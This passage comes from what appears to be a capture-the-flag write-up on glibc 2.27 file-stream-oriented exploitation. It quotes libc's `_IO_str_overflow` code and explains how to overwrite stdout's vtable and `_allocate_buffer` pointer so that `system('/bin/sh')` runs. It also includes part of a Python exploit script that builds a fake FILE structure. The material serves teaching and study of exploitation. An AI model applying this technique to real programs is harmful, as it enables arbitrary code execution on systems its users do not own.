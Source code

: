 ```c
      else                                                                      
    {                                                                           
      char *new_buf;                                                            
      char *old_buf = fp->_IO_buf_base;                                         
      size_t old_blen = _IO_blen (fp);                                          
      _IO_size_t new_size = 2 * old_blen + 100; // ## [ 3 ]                              
      if (new_size < old_blen)                                                  
        return EOF;                                                             
      new_buf                                                                   
        = (char *) (*((_IO_strfile *) fp)->_s._allocate_buffer) (new_size); // ## [ 4 ]
      
      // ## [ ... ]
    }
    }

  // ## [ ... ]
}
```

The most important part of the code is at `[ 4 ]`. It makes a call to `(fp->_s._allocate_buffer)(new_size)`. This is dereferencing `fp`, which is just the `stdout` file structure, which is writable! So with our arbitrary write primitive, we can do the following:

1. Overwrite `stdout`'s `vtable` pointer to point to `_IO_str_jumps`.
2. Overwrite this `_s._allocate_buffer` pointer in `stdout` to the address of `system`, and ensure that `new_size` is set to the address of `/bin/sh`. 

On the next `puts` call, when it attempts to call `_IO_new_file_overflow`, it will instead call `_IO_str_overflow` (since the vtable was overwritten by us), which will in turn call `system("/bin/sh")`! This is the main idea behind using FSOP in libc-2.27 to gain code execution.

There are some constraints though. If you look at the code, we have to ensure the following:

1. At `[ 1 ]`, we have to ensure that `pos >= _IO_blen (fp)` (`flush_only` is always set to 0). `_IO_blen (fp)` just calculates `_IO_buf_end - _IO_buf_base`, so we just have to ensure that `_IO_write_ptr - _IO_write_base` is greater than or equal to `_IO_buf_end - _IO_buf_base` (remember that we can control all of these pointers using our arbitrary write primitive).
2. At `[ 2 ]`, we have to ensure that the `_IO_USER_BUF` flag is not set. This is set by default, so we need to unset it with our arbitrary write primitive.
3. At `[ 3 ]`, we can see the `new_size` variable being calculated using `old_blen`, which is again just `_IO_blen (fp)`. We can control both `_IO_buf_end` and `_IO_buf_base` (as explained above), so we can have `_IO_blen (fp)` set to `(addrof("/bin/sh") - 100) / 2`, which will then cause `new_size`'s calculation to end up with `new_size == addrof("/bin/sh")`.

Provided we do all of the above, we can finally get code execution. The rest of my exploit script is as follows:

```python
# This is the fourth and final `fgets`
p.send(fake)

# We overwrote `_IO_buf_base` to `stdout`, and `_IO_buf_end` to `stdout+0x2000`
# so now we will be able to read 0x2000 bytes into the `stdout` structure when
# _IO_getline_info loops again

# Overwriting the `stdout` file structure
fake  = p64(0xfbad2886) # original _flags & ~_IO_USER_BUF
fake += p64(stdout) * 4 # _IO_read_ptr to _IO_write_base
fake += p64((bin_sh - 100) // 2) # _IO_write_ptr // ## [ 1 ]
fake += p64(0) * 2 # _IO_write_end and _IO_buf_base // ## [ 2 ]
fake += p64((bin_sh - 100) // 2) # _IO_buf_end // ## [ 3 ]
fake += p64(0) * 4 # _IO_save_base to _markers
fake += p64(stdin) # _chain
fake += p32(1) # _fileno
fake += p32(0) # _flags2
fake += p64(0xffffffffffffffff) # _old_offset
```